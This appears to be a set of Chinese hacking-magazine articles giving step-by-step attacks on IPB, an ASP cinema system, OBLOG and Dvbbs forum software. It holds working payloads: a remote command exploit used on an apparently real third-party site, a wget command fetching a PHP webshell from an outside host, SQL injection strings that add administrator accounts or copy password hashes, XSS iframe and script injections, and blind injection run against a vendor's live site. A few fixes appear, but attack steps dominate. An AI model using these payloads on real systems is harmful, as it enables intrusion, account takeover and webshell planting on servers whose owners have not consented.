IPB 论坛可以说是 PHP 业界论坛的鼻祖了，比国内的 DZ! 和 PHPWIND 早很多，国内外很多人都是使用 IPB 来搭建论坛的。IPB 功能强大，操作也简单，安全性一直都很不错。但所谓树大招风，在众人的终日琢磨下，IPB 也时不时地暴出一些破绽。前几天在国外的一家网站上看到一个用 perl 写的通杀 2.* 版 IPB 的 Exploit，惊喜！下载下来保存为 ipbce.pl。这次不分析漏洞产生的原因，只是做些利用测试，看看到底能做些什么。首先说下利用的流程：找到目标论坛，注册一个用户，然后找到一个可以发帖的版块，记下那个版块的编号（f），这些信息后面都要用到的。

下面进行实战演示，`http://XXXX.org.cn/` 是一个专注于中国虚拟主机行业研究的网站，安装了很多的论坛，如 DZ!、PHPWIND、VBB、IPB 等，其 IPB 安装在 php 目录下，所以其 IPB 地址为 `http://XXXX.org.cn/php/ipb/index.php`。下面编辑 EXP，运行后如图1所示。


从图中可以看到如下的使用信息：


看下参数的介绍：`<host>` 是测试 IPB 论坛所在的地址或者 IP，`<dir>` 是 IPB 论坛的相对路径，`<login>` 是你注册的那个用户名，`<password>` 是你注册的那个用户密码，`<forum>` 是你能发帖的版块的编号；`<version>` 是 EXP 里针对两种版本的 IPB 作的选择，0 或者 1。

拿上面说的那个论坛做下测试，它的版本是 2.0.1 的，我已经加了一个用户名是 iceskysl，密码为 123456 的账号……

看到 `Command for execute or 'exit' for exit #` 这句就说明执行成功了，现在我们就可以执行命令了。先看看我的权限如何，执行 whoami 和 id，返回信息如图3所示。


可以看到我当前的身份是 user_zvjlhrir，uid=503（user_zvjlhrir）gid=500（ftpd）groups=500（ftpd）。不是 nobody，看上去像是一个用户的账号。再看看当前目录下都有什么好东西，执行 `ls -la`，返回信息如图4所示。


看到 `drwxr-xr-x 18 user_zvjlhrir ftpd 4096 Apr 28 15:49` 这行了没，因为我们是 user_zvjlhrir，所以我们可以写文件到当前目录下。怎么写呢？有 echo 很麻烦，还要考虑一些特殊符号的转换，不爽，我们采用另外一个方法，使用 wget 命令。先看看 wget 这个命令能不能用，测试很简单，直接使用 wget -h 看能否返回 wget 的帮助信息，如图5所示。


图5 用 wget -h 测试 wget 是否可用


图8 当前目录中存在 1stphp.php

如上返回了 wget 的帮助信息，说明我们可以正常使用 wget 的，那我们就可以下载我们的 PHP 木马到服务器上得到 WebShell 了。首先，把我经常使用的一个 PHP 信息查看器放在我自己的服务器上，其地址为 `http://www.iceskysl.net/1stphp.txt`，我们使用 wget 时是可以重定义保存文件名的，我们把上面的这个文件下载下来保存为 PHP 格式，就可以得到 WebShell 了，如下进行下载和保存：`wget -O 1stphp.php http://www.iceskysl.net/1stphp.txt`，运行后返回信息如图6所示。


图6 用 wget 下载 WebShell


图9 得到的 WebShell

下载完毕后，我们可以再次使用 `ls -la` 查看当前目录下的文件，可以看到 1stphp.php 了，如图8所示。下载好了，我们就可以在当前目录（/php/ipb）下直接得到 WebShell 了，请求地址 `http://XXXX.org.cn/php/ipb/1stphp.php`，就可以看到我们的 WebShell 了，如图9所示。

> 注意：如果你下载的 WebShell 存在但是不能执行，用 chmod 命令修改文件属性为可执行就可以了。

Wget 下载东西很快的，当你看到这样的信息时说明已下载完毕，`15:59:28 (108.98 KB/s) - '1stphp.php' saved [51109/51109]`，如图7所示。


图7 下载 WebShell 成功

### 总结

这个漏洞比较恐怖，在我的记忆中，IPB 已经很久没出过这么危险的漏洞了。这个漏洞在最新版 2.1.5 中存在，利用成功率也比较大。如果你和我一样取得的权限有写权限的话，得到 WebShell 将是很顺利的，而如果你得到的是 nobody 权限的话，wget 就不能用了，可以考虑使用 echo 命令写 WebShell。至于具体的突破，我就不举例了。这个 Exploit 我放在光盘中了，我自己感觉这个漏洞的利用很巧妙，有兴趣的朋友可以好好研究下 Exploit，搞明白漏洞产生的原因，如果能推而广之，说不定还能应用到别的系统上。好了，不多说了，时间比较紧，下期给大家带来这个漏洞产生的原因分析，回见！

（文章中作者使用的 Exploit 已收录在光盘中。）

> 【编辑点评】IPB 最近老是暴漏洞，刚才在网上又看到一个专门针对 Invision Power Board <= 2.1.5 (from_contact) SQL Injection Exploit（也收录在光盘中了），看来 IPB 又要动荡一段时间了。本文作者以一个实际例子，应用成功取得 WebShell 的过程给我们展示了这个漏洞的威力，让我们一起期待下期的漏洞分析。

## 手工注入后台另类拿 WebShell

## ——再揭蚂蚁影院系统

大家好，我是 rabbitsafe，这是本人研究 ASP 程序开始发现的第一个漏洞，是一个注入漏洞。这个漏洞工具检测不了，只能用手工注入。我花了两天才想出了在这个系统后台拿 webshell 的办法，现在，这种方法网上还没有，应该算是首创，方法比较另类，大家往下看就知道了。

```asp
<!--#include file="articleconn.asp"-->
<!--#include file="md5/md5.asp"-->
if request("userid")<>"" then
set rs=server.createobject("adodb.recordset")
sql="select money,online from users where userid='"&request("userid")&"' and password='"&md5(request("pws"))&"'"
rs.open sql,conn,1,3
```

图1 wantlogin.asp 源代码

看代码，首先判断其取得的提交值 userid 是否为空，不为空的话进入 SQL 语句中验证取得的用户名及密码是否和数据库内的用户名及密码一致，如果不一致则弹出“用户名及密码错误”，一致就弹出“恢复成功你现在可以登录！”。这是一段典型的注入漏洞代码，在放入 SQL 语句进行查询时没有经过任何过滤，而且又是使用 request 来取参数，这就给我们提交注入语句提供了很大的方便。

但是有个特殊的地方是：因为 SQL 语句是否执行成功，是通过弹出窗口来判断的，所以工具无能为力，我试了几个工具都不行，只有手工注入了。为了便于演示，我下了一个蚂蚁影院系统到本地，我们现在来猜解管理员的用户名和密码……

1=1 就可以换成我们想要查询的 SQL 语句了。为了方便大家提交查询语句，我特意做了个提交语句的 HTML 页面，如图4所示。你只要把你想要查询的 SQL 语句放入中间就行了，然后通过返回的弹出窗口判断提交的 SQL 语句是否成立，从而猜出管理员用户名和密码。

猜解后得到管理员的用户名和密码。现在来看怎么得到 webshell。后台的登录地址是“http://192.168.1.135/admin/login.asp”，进入后台发现其功能比较简单，没有上传图片、生成页面之类功能，只有数据管理里的数据备份、数据还原、SQL 语句查询等功能……

可以看到数据库的路径是“data/mayi.asp”。那我们再打开数据库看看 http://192.168.1.135/mayi/data/mayi.asp，如图8所示。

显示“Script 块缺少脚本关闭标记(%>)”。由经验知道其肯定是加入了防下载的表，我们打开数据库看了下，果然有个 nodown 的表，这个表就是防下载的。不能下载了，插入一句话木马也没有用啊！晕，得到 webshell 真就这么难吗？不过，值得高兴的是现在情况比昨天好些，我也有了一定的思路了。

第三天早上起来，继续想着在后台拿 webshell 的方法。当我再次认真地看了看后台的每个功能后，突然想到，可以执行 SQL 语句啊！因为存在 nodown 这个表，所以不能下载，也不能插入一句话木马。但既然可以执行 SQL 语句，就可以用 SQL 语句来删除这个表啊，这样不就可以插入一句话木马了吗？说干就干，我马上在 SQL 里写入 `drop table nodown` 执行，打开数据库，如图9所示。

显示的全都是乱码，没有显示“Script 块缺少脚本关闭标记(%>)”，那说明已经成功了，可以插入一句话木马了。在后台公告栏里加入一句话木马，再打开数据库看看效果，如图10所示。

看到上面的显示就说明成功了，马上打开一句话木马客户端提交上去，终于成功拿到 webshell 了，真爽！

其实这套影院系统还有一个上传漏洞，就是动易的无组件上传漏洞，也就是 upfile.asp 这个文件，我想大家应该都很清楚了，方法就不用我多说了吧。不过网上的这套影院系统把 upfile.asp 文件删了，所以用我这种方法还是比较实用的。

最后总结下这次思路：首先通过 wantlogin.asp 这个文件没有过滤单引号，从而产生了字符型注入，通过手工猜出管理员的用户名和密码，进入后台再通过备份连接数据库的文件为 .txt 型，在浏览器中查看到数据库路径，因为数据库中有防下载的表，所以用后台 SQL 语句删除防下载的表，再写入一句话木马，从而最终拿到 webshell。

希望这篇文章能给大家在后台拿 webshell 时提供一个新思路！

> 【文章中作者做的手工注入工具 .htm 已经收录在光盘中。】

前段时间“寂寞”炒得很火，不想现在又出了漏洞。出问题的文件是 wantlogin.asp（好像是用来恢复密码的），注入可是通过弹出窗口来提示的，导致一般的注入工具失效。手工猜解的过程是繁琐点，但只要你能猜完管理员的用户名和密码，进入后台后就可以试试用作者提供的思路来拿 webshell 了。

## OBLOG跨站——提权——爆破之旅

前序：“各位旅客请注意，飞往北京的 51-7 次航班即将起飞，请搭乘本次航班的旅客到 5 号登机口办理登机手续……”他可是头次坐飞机，可不能晚点了！拿着票飞奔往 5 号登机口，忽然，感觉脚被绊了一下，“啊”的一声，我醒了！他的北京七日游啊！就这样泡汤了！如果老天再给我一次机会，我一定看好脚底下，不跑那么快了……可惜机会是不会重来滴，那这七天怎么办啊？对了，不如来个“代码”七日游吧！

前段时间看到动网、动易和 OBLOG 发布了缔结战略联盟公告书，给人一种强强联手的感觉！不知网上有没有整合后的程序？问了问百度，又看了看 GOOGLE，均无收获！既如此，那就单挑吧！动网与动易的文件太多，还是 OBlog 体贴人，程序简洁，就选 Oblog 吧！

OBLOG 是一款支持多用户的博客程序，正因为这点，才让许多朋友聚在了同一屋檐下，如图1所示。但是当我们好奇地点“博客”链接，浏览这些信息时，却经常会不知不觉地中了木马！你问为什么？还不是跨站惹的祸！不信？那俺就让你瞅瞅！

先看图1中的博客信息，分别是“用户 id”“blog 名”“来自”和“日志”这四项；当把鼠标移到某个“用户 id”上的时候，还会看到更多的信息，如图2所示。这其中有“性别”“QQ”“MSN”“主页”和“注册时间”。

OK，信息侦察完毕，转入测试流程！先注册一个用户“jmdcw”，登录“用户管理”后直奔“参数设置”中的“修改个人资料”，如图3所示。

## 新闻练练看

“主页”“QQ号码”“MSN”在该页面可以修改，而“性别”和“来自”采取的是选择框，不好直接测试；但“主页”“QQ号码”“MSN”使用的则是文本框，适合直接测试。再看一下数据库中这三项的字段类型，均是“文本”格式，“QQ”和“MSN”的长度限制在 50，而“主页”则是 100，还是“主页”给面子，嘿嘿，那就把它列为重点吧！在“主页”中输入跨站语句：`<iframe src=//www.nohack.cn/book/0605.htm width=100 height=100></iframe>`，查一查字符数，才 73 个，离 100 还早着呢！更新资料成功后，打开首页中的“博客”链接，并没有出现预想的结果。当移动鼠标到“jmdcw”名称上，显示的效果如图4所示。

代码并没有执行。难道被屏蔽了？看来还得从当前页面的源代码入手，查找一下原因。图4的源码如下：

```html
<a href='blog.asp?name=jmdcw' title='点击进入jmdcw的blog页面
===== 用户信息 =====
性别：男
QQ：未填
MSN：未填
主页：<iframe src=//www.nohack.cn/book/0605.htm width=100 height=100></iframe>
注册：2006-5-4 22:28:06'>jmdcw</a>
```

哇！跨站代码竟然完好无损地在源码之中！但为什么没有实现跨站效果呢？经过分析后找到如下原因：原因之一，所有的用户信息，包括跨站代码都被“title”后的单引号统治了，跨站代码在里面被当作文本了，而解决的方法就是在“<iframe”前加入一个单引号；原因之二：HTML 也讲究对称，有“<”开始，也要有“>”结束，所以还要在“<iframe”和单引号之间加入一个“>”，以满足“<a href”的条件。这样，“<iframe”前面的代码就是摆平了，再来构造“</iframe>”后的代码。和前面的方法一样，加入“<t='”代码就能满足后面的各项条件。构造好的代码如下：

```html
' > <iframe src=//www.nohack.cn/book/0605.htm width=100 height=100></iframe><t='
```

更新后，再次刷新“博客”显示页，如图5所示，跨站出现了。再看一下“用户id”上的链接，除了注册日期没有显示外，其他的都显示出来了。如果再将上面代码中的长和宽都改为 0，那么潘多拉的魔盒不就悄悄打开了吗？（注：在“主页”框内输入跨站代码时，最好先在文本中构造，然后再复制到此处以避免写错。）

上面所展示的跨站漏洞有个缺陷，即不能显示注册日期。如果你是完美一族，那就放弃对“主页”的修改，可以把目标改为修改“来自”内容，比前面稍微麻烦一点。对更新资料时进行抓包，得到了如下提交信息：

```text
...nickname=&o_nickname=&truename=&sex=1&province=%B1%B1%BE%A9&city=%B6%AB%B3%C7&y=&m=&d=&job=&Email=520@cc.com&homepage=&qq=&msn=&tel=&address=&action=saveuserinfo
```

其中的“province=%B1%B1%BE%A9&city=%B6%AB%B3%C7”是用户注册省份和城市的 16 进制转换，但在“更改个人资料”页，这一项是可以为空的，这样就给我们构造跨站语句提供了很好的空间。经过一番尝试，将上面的提交信息去繁就简，挑出了以下必填字段：“action=saveuserinfo&Email=520@cc.com”。在对“user_setting.asp”文件分析后，发现其接收资料采取的是 request() 方式，所以直接在 URL 中输入构造的语句，一样可以修改个人资料。如图6所示，跨站又出现了！

```text
http://127.0.0.1/oblog312/user_setting.asp?action=saveuserinfo&Email=520@cc.com&province=<script src=//www.pc010.cn/1.js></script>
```

```javascript
// 1.js
document.write('<iframe frameborder=0 width=100 height=100 scrolling=no src=http://www.baidu.com></iframe>');
```

看看天色已晚，这一站的旅行就到此结束吧，不过在走人之前，还是要了解一下跨站漏洞的形成原因。

更改资料所涉及的 ASP 文件是“user_setting.asp”，在将资料写入数据库之前，用的是如下过滤方式：`rs("homepage")=oblog.filt_astr(request("homepage"),100)`；把数据输出到“个人资料修改”页时用的语句是：`value="<%=oblog.filt_html(rs("Homepage"))%>"`；而读取到“listblogger.asp（博客）”页时用的则是这样的语句：

```vb
title=title&"，主页："
if rsmain(7)<>"" then
  title=title&rsmain(7)
else
  title=title&"，未填"
```

直接从数据库中读取，其实这种读取方式在 OBLOG 中还有好几个地方，比如后台中的“MSN”显示语句：`MSN:<INPUT name=msn value="<%=rsUser("Msn")%>" size=30 maxLength=50>`。

思路是不是清晰了？OBLOG 在写入个人资料时用自定义的“filt_astr”将长度限制在 100 之内，在读取资料到“个人资料修改”页用“filt_html”进行过滤，而读取到 listblogger.asp（博客）页，采取的却是拿来主义。病因找到了，那就简单开个方子吧！处方如下：

- 1. 修改 `oblog.filt_astr`（字符串，长度）中的长度为 20，包括其他的一些个人资料也一并修改。
- 2. 个人资料在写入数据库之前或从数据库读取之后用 `oblog.filt_html` 过滤。

> 编辑点评：Oblog 在多用户 Blog 领域还算是响当当的。在同一个屋檐下的用户是不是喜欢到处逛逛，查看别人的信息呢？看了这篇文章是不是觉得很危险呀，搞不好就被人挂了马。哎，防不胜防呀！然而利用的余地还远不只跨站，在 SQL 版本的 Oblog 中，还可以提升权限。至于具体怎么用，看完本栏目的另外一篇文章你就知道了。

## 第二站：又见数组——在 OBLOG3.1 SQL 版中提权

- 从本节中你可以学到：
- oblog3.1 SQL 版本的提权方法和原因
- 漏洞的分析和利用
- 漏洞的修复

不知道《黑客手册》的读者是否还记得 2006.3 期中“firstsee”写的《BBSXP 6.0 sp1 上传注入漏洞利用》，作者利用一个数组漏洞拿到了管理员权限。我在看“OBLOG3.13”版的源码时，发现在“user_post.asp”中竟然也有类似的一段源码！

```vb
sub savelog()

log.pics=trim(request("log.pics"))  ' 获取 log.pics 提交值
...
if isdraft=0 then   ' 照片直接发布
...
blog.progress_int(7/p*100),"更新图片连接..."
if t="1" then Call UpdatePicLinks(log_pics, tid, log.blogteam, log_classid, log.subjectid, log.password, log.ishide)  ' 此处执行后面的 UpdatePicLinks 过程
...
blog.progress_int(8/p*100),"更新站点信息..."
...
blog.progress_int(10/p*100),"提交完成"

End Sub

' 更新图片连接与日志的关联
Private Function UpdatePicLinks(byval sPics,byval sLogid, byval sUserId,byval sSysClassId,byval UserClassId,byval log_password,byval log_ishide)

  Dim aPics,i,sPic,ispw
  sPics=Trim(sPics)    ' sPics 是前面更新图片连接时提交过来的 log.pics 值

  aPics=Split(sPics,VBCRLF)   ' 用 VBCRLF 对 sPics 进行分割
  For i=0 To UBound(aPics)
    sPic = Trim(aPics(i))     ' 用 for 循环取出数组的下标
    If sPic<>"" Then
      Select Case LCase(Right(sPic,3))  ' 截取数组下标后三位
        Case "jpg","gif","png","bmp","tif"  ' 如果符合
          Call oblog.Execute("Update oblog_upfile Set logid=" & sLogid & ",sysClassid=" & SysClassid & ",UserClassid=" & UserClassid & ",isphoto=1,ispower=" & ispw & " Where file_path='" & sPic & "' And userid=" & sUserId)
        Case Else
      End Select
    End If
  Next
End Function
```

在上面这段代码中，虽然“log_pics”在提交过程中绕了好几圈，但最终还是毫发无损地传递给了“UpdatePicLinks”。在这个过程中，“VBCRLF”代表的是“Chr(13) & Chr(10)”（回车符与换行符），Split 函数则用其做关键字，对传递进来的“log_pics”进行分割，然后再交给 FOR 循环。在进入 SQL 语句之前，先用“Right”截取下标值的后三位，如属于“jpg”等图片格式，就把提交来的“log_pics”值放入 SQL 中运行，否则就 Byebye 了！按照这个流程推算，如果提交的“log_pics”值是“图片路径' and 1=1 and 'jpg'='jpgVBCRLF'”，那么在经过一道通关卡后，aPics(0) 的值就是“图片路径' and 1=1 and 'jpg'='jpg”，当把这个值赋予 sPic，那么“update”中最后的“where”（条件）就变成了如下格式（假设 userid 是 123）：

```text
file_path='图片路径' and 1=1 and 'jpg'='jpg' And userid=123
```

瞧，这不就是巨经典的“1=1”注入吗！因为 OBLOG 禁止了外部提交，所以要先抓取一个正常发布的数据包作为试验品。依次点击“用户管理”→“相册管理”→“添加相片”，在“发表相片”窗口内填入必填的信息，再选择一个图片上传，填写完成后的窗口如图1所示。

在点“发布相片”之前启动“Winsock Expert”，抓到的 POST 数据如下：

```text
POST /oblog312/user_post.asp?action=savelog&t=1 HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/msword, application/vnd.ms-excel, application/x-shockwave-flash, */*
Referer: http://127.0.0.1/oblog312/user_post.asp?t=1
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; SV1; .NET CLR 1.1.4322)
Host: 127.0.0.1
Content-Length: 432
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ...

topic=...&classid=1&subjectid=0&postchknun=...&isub=0&isdraft=0&...&log_pics=UploadFiles%2F2006-5%2F53178864.jpg%0D%0A&...
```

将上面的数据保存在“oblog.txt”中，接着从中找到本文的主角“log_pics=UploadFiles%2F2006-5%2F53178864.jpg%0D%0A”。这其中夹杂了 16 进制的“/”（%2F）和“VBCRLF”（%0D%0A）。按照前面的思路，将 log_pics 的值更改为：“UploadFiles%2F2006-5%2F53178864.jpg'+and+1=1+and+'jpg'='jpg%0D%0A”（空格用“+”表示），计算一下增加的字符数，然后修改“Content-Length”的值 432 为“466”（因为提交的字符值若不对的话就有可能提交失败）。启动 CMD 窗口，进入或者指向 NC 存放的路径，然后运行如下命令：

`nc.exe -vv 127.0.0.1 80 <oblog.txt >oblog.htm`

完成后的“oblog.htm”如图2所示。

图 2 NC 提交构造后的数据返回信息

图 3 SQL 版本利用返回信息

图 4 ACCESS 数据库的返回信息

图 5 用我们添加的用户登录后台

图 6 用工具 POST 数据

格式？如果换成 SQL 格式，情况会不会有所改变呢？在 oblog3.13 版的“ReadMe”中看到这样的信息：“OBLOG3.13 Patch20060422 适用版本：OBLOG3.12 ACCESS/SQL”，看来，“Oblog”除了 Access 版的程序外，一定还有 3.X 系列的 SQL 版程序。

经过一番搜索，终于找到了一套“Oblog v3.1 SQL”版，其“user_post.asp”页的代码和“OBLOG v3.13 ACCESS”版的一样。OK，条件成立，开工！和前面的测试方法一样，先用“Winsock Expert”进行抓包，然后将抓到的数据保存在 oblog1.txt 中，修改 log_pics 值为：

```
UploadFiles%2F2006-5%2F53456187.jpg'and+1=(select+@@version)--jpg%0D%0A
```

因为是 SQL 数据库，所以先提交“1=(select+@@version)”，看能否暴出系统信息。另外，所构造语句中的“--”在 SQL 语句中起到注释作用。细心的朋友一定会问，在“--”后为什么多了三个字符“jpg”？再看一下前面的代码就会明白，这三个字符是给“UpdatePicLinks”中“Right”的礼物，如果“Right”截到的后三位没有“jpg”，那么所提交的字符串就不会进入 SQL 语句了。

接下来修改“Content-Length”值，然后执行 NC 命令：

```
nc.exe -vv 127.0.0.1 80 <oblog1.txt >oblog1.htm
```

完成后打开返回的 oblog1.htm，如图 3 所示。服务器的环境尽现眼前！进行到这儿，我忽然想到了一种判断 oblog 数据库类型的方法，就是提交“'and+1=(select+@@version)--jpg”，根据返回的信息进行判断，如果是 SQL 数据库，返回的信息就和图 3 一样；如果是 ACCESS 数据库，那么返回的结果就和图 4 一样了。

OK！总算看到了一些眉目，接着将 log_pics 的值更改为：

```
UploadFiles%2F2006-5%2F53456187.jpg';insert+into+[oblog_admin](username,password)values('52cc','49ba59abbe56e057')--jpg%0D%0A
```

上面语句的意思是把普通用户 52cc 加入到管理员表中，所提交的方法和前面一样，就不再赘述了。完成后打开 oblog1.htm，显示的是“提交完成”。按照语法，返回的就应该是这种提示，但到底是否成功，还要验证后才能下结论。打开后台的登录页：“admin/admin_index.asp”，输入 52cc 及密码，如图 5 所示，登录成功！

在 OBLOG 的后台测试了好长时间，也没有找到好用的进一步提升权限的方法，看来要想再提升权限，只有采用数据库备份了。当前网站的物理路径在图 5 的“站点物理路径”中已经给出来了，至于数据库备份的语句，在前两期的《黑客手册》中，我已连着介绍了数据库差异备份和日志差异备份的方法，这里也不再啰嗦了！

一次次地计算提交字符，算得我头都大了，于是用 VB 编一个 POST 提交工具，把“Winsock Expert”抓到的数据分别填入程序相应的文本框内，如图 6 所示。为了方便修改“log_pics”值，我将其从中间移到了最后，按所构造的字符更改“log_pics”值，虽然还是有些麻烦，但相比之前要快多了。使用这个工具，有几点需要注意：

- 1. 用户登录时要选择“保存密码”。
- 2. 如返回的信息是“不允许重复提交表单”，则说明“Cookie”与“提交内容”中的“postchknum”内容不一致。
- 3. 一般情况下，返回的是“提交完成”，在提交菜库或一些特殊语句时，返回的才是出错信息，否则就有可能是构造的语句书写错误。

和往常一样，说完漏洞，接下来说的就是修补漏洞的方法。很简单，将“log_pics=trim(request("log_pics"))”改为“log_pics=replace(trim(request("log_pics")),"'","")”，用 replace() 函数将提交参数中的单引号过滤为空，就补住这个专属 SQL 版的高危漏洞了！

> （文章中用到的工具 JMPost.exe、nc.exe 和 WinSock Expert 及相关的语句已收录在光盘内。）

## 编辑点评

看完前面的跨站漏洞，接着又看这个提升权限漏洞，虽然这个版本的 Oblog 网上用的人不是很多，但作为一种漏洞的出现形式，还是有必要刊出来跟大家分享一下。希望大家能学会文中分析问题的思路，灵活理解作者的方法，这样自己也就可以去发掘漏洞了！

“提交完成”！哈哈，漏洞现身了！接下来把 log_pics 中的“1=1”改为“1=2”进行提交，结果返回的 oblog.htm 页面和图 2 一样，真是怪了，应该出现错误才对啊！后来又将“And”改为“Or”测试也是同样的情况。为什么真与假返回的都是提交完成，难道是人品问题？

## 暴破 oblog3.12 ACCESS 版

## 第三站：再接再厉

在对 OBLOG3.1 ACCESS 版测试时，“1=1”和“1=2”返回的均是“提交完成”，为此一直感到郁闷！凑巧今天有些时间，便翻出那句代码又分析了一遍，恍然大悟，原来是这样的。

当给“log_pics”赋值：“Upload Files/2006-5/56405200.jpg' and 1=1 and 'jpg'='jpg”，在 Update 语句中，条件成立，因而对数据库进行更新，提交完成；但如果提交的值换成：“Upload Files/2006-5/56405200.jpg' and 1=2 and 'jpg'='jpg”，条件不成立，按理说应该出错，但却没有出错。

原因是这是“Update”语句，并不是通常见到的“Select”语句。在“Update”语句中，条件不成立，就不进行更新，跳过更新语句，转而执行下面的语句，因此返回的也是“提交完成”。不管尴尬也好，对此也好，它就一根筋了！

```
' and 1=(select @@version)--jpg
```

由于工作原因，经常会用到 EXCEL，其中的一个函数“IF”混得很熟。来看一下 IF 的格式：“IF(Logical, Value_if_true, Value_if_false)”。在 ACCESS 数据库中有 IIF 函数，格式是：Iif(Logical, Value_if_true, Value_if_false)，与 EXCEL 中的 IF 格式一致。

```
UploadFiles/2006-5/56405200.jpg' and 2=(iif(1=1),2,'2 abc') and 'jpg'='jpg
```

如果 IIF 中的条件为真，返回 2；如果把条件改为假，则会返回“2 abc”，递交到代码中会导致 SQL 执行语法错误。

在本地测试成功后，打开 OBLOG 官方站点进行测试。先上传一张图片，接着用抓包工具抓取“发布相片”的数据包，将数据复制到工具中，最后修改“log_pics”值为盲注测试语句。

图 1：提交构造好的测试语句

图 2：返回提交完成信息

在“返回信息”的最下方显示的是“表达式中数据类型不匹配”。据此可继续调整 IIF 中的判断值，逐步试探管理员 ID 与用户名字符的 ASCII 值，最终推断出管理员账号信息。

```
(select asc(mid(username,1,1)) from [oblog_admin] where id=3)<58
```

```
(select asc(mid(password,1,1)) from [oblog_admin] where id=3)<58
```

```
(select password from [oblog_admin] where id=3)='469e80d32c0559f8'
```

后续作者表示虽然验证出 ACCESS 版存在问题，但后台路径已修改，测试到此结束，并删除日志。

> 编完刺猬的那篇 SQL 提升权限文章后，继续研究 ACCESS，本文仅作思路记录。

后记：作者被电话催促去上班，感慨时间已晚，收尾。

## 千金之下，必有勇夫 —— Dvbbs7.1sp1 SQL 注入漏洞

BY 剑心 [B.C.T]

最近听说动网在开展千金找洞的活动，对于这个千金偶倒是挺有兴趣的，正好最近手头有点紧，于是就去下载了个最新的动网 dvbbs7.1 的 SQL 版本，想找找有没有什么大的漏洞。前台的 SQL 注入漏洞可是 2000 块一个哦！废话不多说，拉下了代码就开始读吧！

以前对动网的代码没有什么研究，漏洞一般出现在可以提交参数的地方，所以提交参数多的地方出现漏洞的几率应该就多些。前台提交参数多的地方应该就是发帖子的地方啦！本地搭建论坛之后随手发了个帖子，发现提交的地址是 savepost.asp，那么我们就从这个文件入手吧！

```
Star = Request("Star")
If Star = "" Or Not IsNumeric(Star) Then Star = 1
Star = Clng(Star)
```

让人很郁闷，想来也是，不然动网怎么能搞出千金找洞的活动呢？随着一个个提交参数的寻找，查看过滤方式，又排除又继续寻找如此反复的一个过程，不知不觉到了一段很有意思的代码那里，在 savepost.asp 第 150 行左右。

```
If Not IsNumeric(Buy_VIPType) Then Buy_VIPType = 0
If Buy_UserList<>"" Then Buy_UserList = Replace(Replace(Replace(Buy_UserList,"|",""),"@@@",""),"$PayMoney","")
ToolsBuyUser = "|0@@@|"&Buy_Orders&"@@@"&Buy_VIPType&"@@@"&Buy_UserList&"|||$PayMoney|||GetMoneyType=" & 3
```

看到 Buy_UserList 这个变量似乎只对“|”和“@@@”做了处理，然后就进入 ToolsBuyUser 变量里！接着继续追踪 Buy_UserList 的来源与后续处理。

```
Dim Buy_Orders,Buy_VIPType,Buy_UserList
Buy_Orders = Request.FORM("Buy_Orders")
Buy_VIPType = Request.FORM("Buy_VIPType")
Buy_UserList = Request.FORM("Buy_UserList")
...
ToolsBuyUser = "|0@@@|"&Buy_Orders&"@@@"&Buy_VIPType&"@@@"&Buy_UserList&"|||$PayMoney|||GetMoneyType=" & 3
```

到此就没有其它对 Buy_UserList 变量的处理，但是也是从这个时候起 ToolsBuyUser 就是危险的了。

ToolsBuyUser 发现在这几个地方出现：

```
32 行左右的定义
Private GetPostType,ToMoney,UseTools,ToolsBuyUser,...
...
Case "0"
ToolsBuyUser = "|0|||$SendMoney|||"
Case "1"
ToolsBuyUser = "|0|||$GetMoney|||"
Case "2"
Buy_UserList = Request.FORM("Buy_UserList")
If Buy_UserList<>"" Then Buy_UserList = Replace(...)
ToolsBuyUser = "|0@@@|"&Buy_Orders&"@@@"&Buy_VIPType&"@@@"&Buy_UserList&"|||$PayMoney|||"
```

如果 ToolsBuyUser 进入了数据库查询，我们邪恶的愿望就可以实现了。在后续代码中发现其进入 SQL 语句。

```
SQL="insert into ... isbest,isPostUserID,isUpLoad,isAudit,isUbbList,GetMoney,UseTools,PostBuyUser,GetMoneyType) values (...)"
DvBbs.Execute(sql)
```

哈哈，我们的 ToolsBuyUser 出现在 SQL 语句里了，但是这里是 insert 语句。接着分析如何让程序获得这个变量，以及怎样通过发帖流程触发这段代码。

```
Case "2"
Buy_UserList = Request.FORM("Buy_UserList")
If Buy_UserList<>"" Then Buy_UserList = Replace(...)
ToolsBuyUser = "|0@@@|"&Buy_Orders&"@@@"&Buy_VIPType&"@@@"&Buy_UserList&"|||$PayMoney|||"
```

并且 Buy_UserList 是从允许购买用户的地方获得的，就是发帖时相关输入位置的 Buy_UserList 变量哦！

这下好说了！可以试着把 loveshell 添加为管理员嘛！

图 1 提交 Buy_UserList 变量的地方

图 4 成功地将 admin 的密码存在邮箱字段里

嘿嘿，那么在 MSSQL 下我们要做的就很简单，先闭合前面的 insert 语句，然后就是构造自己的注入语句了，注意这里是没有任何限制的哈！应该很轻松吧！一步一步来！分析前面的 SQL 语句就可以知道，只要构造这样的 Buy_UserList 就可以了！

**格式为：loveshell',3);你自己的 SQL 语句；**

这句就是直接搞定动网的语句，譬如我在订购买用户名单限制里，也就是 Buy_UserList 里提交：

```
loveshell',3);update/**/Dv_User/**/set/**/UserEmail=(select[Password]from/**/Dv_admin/**/where[Username]='admin')/**/where[UserName]='loveshell'
```

如果成功就会把管理员表里的 admin 用户的密码更新到我的邮箱，填写如图 2。

图 2 更新管理员密码到 loveshell 邮箱字段里的语句

然后提交，如果没有出错的话，如图 3，就是成功了。

图 3 成功提交的返回页面

这个时候去看看 loveshell 的邮箱字段吧，如图 4，不用我说也知道我们操作的结果是什么吧！

果然成功地将 admin 的加密密码存在我们的邮箱里了哦！我们成功地注入了动网！最幸运的是动网居然没有对 Buy_UserList 这个长度作任何限制，也就是说可以 N 个语句一起连着执行。

如果想要把 loveshell 用户添加为管理员，通过模拟后台的操作可以知道需要这两步：

```
insert into dv_admin (username,[password],adduser) values ('loveshell','49ba59abbe56e057','loveshell');update [dv_user] set usergroupid=1, userclass='管理员',titlepic='level20.gif' where username='loveshell'
```

这个语句是加一个用户名为 loveshell、密码为 1234656 的后台管理员，并且将 loveshell 提升为前台管理员，这比以前的猜测管理员 md5 好多了吧！但是到我们这里就简单了，只要发个帖子就行了哦！同上面的道理去发表一个帖子：

```
loveshell',3);insert into dv_admin (username,[password],adduser) values ('loveshell','49ba59abbe56e057','loveshell');update [dv_user] set usergroupid=1, userclass='管理员',titlepic='level20.gif' where username='loveshell'
```

